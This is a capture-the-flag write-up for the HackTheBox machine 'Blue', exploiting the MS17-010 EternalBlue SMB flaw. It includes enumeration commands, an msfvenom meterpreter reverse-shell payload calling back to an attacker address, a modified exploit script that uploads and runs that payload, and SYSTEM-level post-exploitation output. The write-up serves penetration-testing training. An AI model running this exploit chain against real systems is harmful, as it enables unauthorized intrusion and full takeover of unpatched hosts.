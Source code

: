 [HackTheBox] Blue
===============
date: 01/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
This is a writeup for HTB VM [Blue](https://www.hackthebox.eu/home/machines/profile/51). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_htb_blue/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_htb_blue/killchain.png.webp)

### TTPs
1\. `139/tcp/netbios-ssn/Microsoft Windows netbios-ssn`: [exploit_smb_ms17_010](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Nov  1 17:05:41 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/xml/_quick_tcp_nmap.xml 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.15s latency).
Scanned at 2019-11-01 17:05:41 PDT for 171s
Not shown: 991 closed ports
Reason: 991 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 57283/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 60472/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 17:08:32 2019 -- 1 IP address (1 host up) scanned in 171.43 seconds
```

2\. We find SMB ports to be open on the target system. We run a Nmap NSE script scan to check if the SMB service is vulnerable:  
```
nmap -p139,445 --script smb-vuln-* --script-args=unsafe=1 10.10.10.40
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_blue/screenshot01.png.webp)  

3\. We find that the target system is missing patches from [MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) bulletin and as such vulnerable. We can use the [zzz_exploit.py](https://github.com/worawit/MS17-010) EternalBlue exploit to gain interactive access. But before that we need to determine the target OS version and the name of an active pipe:  

4\. We first use Metasploit auxiliary module `scanner/smb/smb_version` to determine target OS version to be `Windows 7 Professional SP1 (build:7601) (name:HARIS-PC)`:  
```
msfconsole
  use auxiliary/scanner/smb/smb_version
  show options
  set RHOSTS 10.10.10.40
  run
```

![writeup.enumeration.steps.4.1](/static/files/posts_htb_blue/screenshot02.png.webp)  

5\. Then we use another Metasploit auxiliary module `scanner/smb/pipe_auditor` to find multiple open pipes `\netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \keysvc, \lsass, \LSM_API_service, \ntsvcs, \plugplay, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc`:  
```
msfconsole
  use auxiliary/scanner/smb/pipe_auditor
  show options
  set RHOSTS 10.10.10.40
  run
```

![writeup.enumeration.steps.5.1](/static/files/posts_htb_blue/screenshot03.png.webp)  

### Findings
#### Open Ports
```
135/tcp    |  msrpc         |  Microsoft Windows RPC
139/tcp    |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp    |  microsoft-ds  |  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp  |  msrpc         |  Microsoft Windows RPC
49153/tcp  |  msrpc         |  Microsoft Windows RPC
49154/tcp  |  msrpc         |  Microsoft Windows RPC
49155/tcp  |  unknown       |
49156/tcp  |  msrpc         |  Microsoft Windows RPC
49157/tcp  |  msrpc         |  Microsoft Windows RPC
```

## Phase #2: Exploitation
1\. We now need to create a binary payload file. For this exploit, we will use `meterpreter` as the payload and then use `multi/handler` to catch the incoming shell connection. We then slightly tweak the exploit file to first copy the binary payload on to the target system and execute it:  
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.18 lport=443 -f exe >mtrptr.exe
subl zzz_exploit.py
  def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
    + smb_send_file(smbConn, '/root/toolbox/writeups/htb.blue/mtrptr.exe', 'C', '/mtrptr.exe')
    + service_exec(conn, r'cmd /c c:\\mtrptr.exe')
msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.14.18
  set lport 443
  set ExitOnSession false
  exploit -j
python zzz_exploit.py 10.10.10.40 netlogon
msfconsole
  sessions -i 1
  getuid
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_blue/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_blue/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_htb_blue/screenshot06.png.webp)  

![writeup.exploitation.steps.1.4](/static/files/posts_htb_blue/screenshot07.png.webp)  

![writeup.exploitation.steps.1.5](/static/files/posts_htb_blue/screenshot08.png.webp)  

2\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
sysinfo
cat C:\Users\haris\Desktop\user.txt
cat C:\Users\haris\Desktop\root.txt
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_blue/screenshot09.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_blue/screenshot10.png.webp)  

![writeup.exploitation.steps.2.3](/static/files/posts_htb_blue/screenshot11.png.webp)  

## Phase #2.5: Post Exploitation
```
ntauth/system@HARIS-PC> id
NT AUTHORITY\SYSTEM
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> uname
Computer        : HARIS-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IPv6 Address. . . . . . . . . . . : dead:beef::c530:b184:97a4:fd67
  Temporary IPv6 Address. . . . . . : dead:beef::4d8e:bdfd:4c8b:3189
  Link-local IPv6 Address . . . . . : fe80::c530:b184:97a4:fd67%11
  IPv4 Address. . . . . . . . . . . : 10.10.10.40
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:db57%11
                                      10.10.10.2
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> users
Administrator
haris
```

## Loot
### Flags
```
C:\Users\haris\Desktop\user.txt: 4c546aea7dbee75cbd7.............
C:\Users\Administrator\Desktop\root.txt: ff548eb71e920ff6c0..............
```

## References
* <https://www.hackthebox.eu/home/machines/profile/51>  
* <https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125>  
